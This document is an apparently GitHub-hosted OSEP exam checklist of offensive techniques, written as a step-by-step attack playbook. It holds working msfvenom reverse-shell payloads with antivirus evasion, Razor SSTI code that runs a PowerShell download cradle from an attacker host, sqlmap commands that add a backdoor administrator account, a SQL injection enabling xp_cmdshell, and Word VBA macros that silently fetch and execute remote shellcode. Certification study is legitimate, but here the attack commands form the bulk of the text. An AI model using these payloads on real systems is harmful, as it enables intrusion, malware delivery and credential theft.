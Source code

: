 # Checklist for OSEP

## Enumeration

- Switch on your apache server
- Identify External vs Internal vs Vault IPs
- Full nmap scan (TCP + UDP) against External Hosts
- Note hostnames and update /etc/hosts
- Re-scan against hostnames
- Hostnames usually mean something. Put a remark in the table. For e.g, note things like clients, devs, DB etc
- Web Services should be fully enumerated with feroxbuster/gobuster.
	- Check Source Code for possible reveal of tech stack (ie .NET Razer)
	- Login pages for default creds
	- Wordpress sites to be wpscan
	- file upload pages to be tested
- DevOps stuff like gitlab, Ansible, Artifactory should be noted down as they will likely play a part further on
- If there are fields for user input, please try SQL Injection, SSTI payloads. SQLMap can be very useful. For SSTI payloads, run the following:
```bash
# basically if the math resolves, it is vulnerable to code execution
{{4*4}}
@(3+2)
<%= 3 * 2 %>
```

## Meterpreter Payload Creation

- Use Get-Shellcode (https://github.com/gh0x0st/Get-Shellcode) to obfuscate ps1 meterpreter shellcode
- Slot that nice obfuscated shellcode into your ps1 shellcode runner. Remember to update the variables accordingly in the rest of the code. This has a 100% success rate on all OSEP Challenge Labs (CowMotors and DenkiAir included)
- if you are creating an .exe payload from csharp, use Sleep, non-emulated APIs (such as VirtualAllocExNuma) for sandbox evasion, use multiple byte XOR to encrypt your payload
- same idea for VBA
- for .hta code, it is jscript; XOR the shellcode, do dotnet2js, prepend an obfuscated jscript into the output .hta file from dotnet2js
- for prependmigrate, you need to set it up as a msfvenom option when creating a payload. Note that explorer may not always work if the target user is not an interactive user (such as svc accounts, IIS blah blah)
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=<kali ip> lport=443 prpendmigrateprocess=explorer.exe prependmigrate=true -f exe > evil.exe
```

### Catching Meterpreter Shells

- x86 for MSWord vectors, x64 for everything else
- Consider setting AutoRunScript in the advanced options of exploit/multi/handler to run a process migration upon establishing the meterpreter shell to evade AV
- if it doesnt work, you may wish to use prepend migrate which is another form of migration but done earlier in the process of establishing the shell (might be more unstable but allegedly more evasive)
```
msf6 (exploit/multi/handler) > set AutoRunScript post/windows/manage/migrate
```

## Initial Access

### Web SSTI Vulnerability
- if SSTI vulnerable, read this for more info (https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/)
- test for command execution with
```csharp
@{ 
  var psi = new System.Diagnostics.ProcessStartInfo("cmd.exe", "/c whoami");
  psi.RedirectStandardOutput = true;
  psi.UseShellExecute = false;
  var proc = System.Diagnostics.Process.Start(psi);
  var output = proc.StandardOutput.ReadToEnd();
}
@output
```
if the above works then powershell shellcode runner
```csharp
@{ System.Diagnostics.Process.Start("cmd.exe", "/c powershell -w hidden -nop -c IEX(New-Object Net.WebClient).DownloadString('http://192.168.XX.XX/simplerunner64.txt')"); }
```

### SQL Vulnerability

- try out with simple payloads first like:
```
' OR 1=1 -- //
```
- avoid using sites that redirect upon successful auth bypass, cause that will make any automated tools like SQLMap run slower and more unstable
for sites that are vulnerable, capture the vulnerable parameter using Burpsuite, create a requests file to pass to sqlmap
```bash
# Manual sqlmapping
sqlmap -u "http://<victim ip>/login.asp?user=a&password=a"
# test for command execution
sqlmap -u "http://<victim ip>/login.asp?user=a&password=a" --os-cmd=whoami --thread=10
# if above okay, attempt to add new admin user
sqlmap -u "http://<victim ip>/login.asp?user=a&password=a" --os-cmd="net user hacker P@ssw0rd123! /add" 
sqlmap -u "http://<victim ip>/login.asp?user=a&password=a" --os-cmd="net localgroup administrators hacker /add"
# try to get shell
sqlmap -u "http://<victim ip>/login.asp?user=a&password=a" --os-shell
# if above does not work, try sql shell and then enable xp_cmdshell. Can also consider uploading a malicious asp file to web root and execute
sqlmap -u "http://<victim ip>/login.asp?user=a&password=a" --sql-shell

## manual SQL Injection in BurpSuite; note you may need to use + or %20 for the whitespaces
http://192.168.X.X/login.asp?user=test&pass=1' or 1=1;EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE--
```
- Note if there is SQL vuln, that means there is an SQL database somewhere (most likely MSSQL)


### Email Phishing Vector
- Look out for hosts with smtp (Port 25 default) and see if there are any email addresses found
- Use smtp-user-enum if unable to find email addresses
- send email with swaks


### MSDoc Phishing
- Assuming you know that you need to set up the DocumentOpen and AutoOpen functions
- if .doc related, start off with a simple ping payload to check connectivity and command execution
```vba
Sub MyMacro()
	Dim str As String
	str = "ping.exe <kali ip>"
	Shell str, vbHide
End Sub
```
- if the above fires, use a powershell download cradle to fire off a meterpreter shell. Note that for MSWord, you need a x86 payload!
```vba
Sub MyMacro()
	Dim str As String
	str = "powershell.exe -nop -ep bypass -c IEX(New-Object System.Net.WebClient).Downloadstring('http://<kali ip>/amsi.txt')"
	str = "powershell.exe -nop -ep bypass -c IEX(New-Object System.Net.WebClient).Downloadstring('http://<kali ip>/simplerunner.txt')"
	Shell str, vbHide
End Sub
```
- if (New-Object System.Net.WebClient) does not work you can use the following. Though if New-Object doesnt work, it is likely that IEX is disabled as well
```vba
Sub MyMacro()
	Set shel_obj = CreateObject("Wscript.Shell")
	shell_obj.Run "powershell.exe -ep bypass -c iwr http://kali/simplerunner.txt | IEX", 0
End Sub
```
- if the above fails, likely powershell is restricted in some way or your meterpreter shell is caught (check for hits to your apache server)
- Can consider a direct VBA Shellcode Runner (obfuscated shellcode) of course
- if not, you can use get the VBA to download your compiled executable and execute it with InstalUtil

### ELF File Upload

- Linux boxes are usually simpler. Try the following payload
- Prependfork=true spawns a child process before executing the malcode which is stealthier and is more stable as the parent process wont crash or have malcode running in it
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 prependfork=true -f elf -t 300 -e x64/xor_dynamic -o test.elf
```
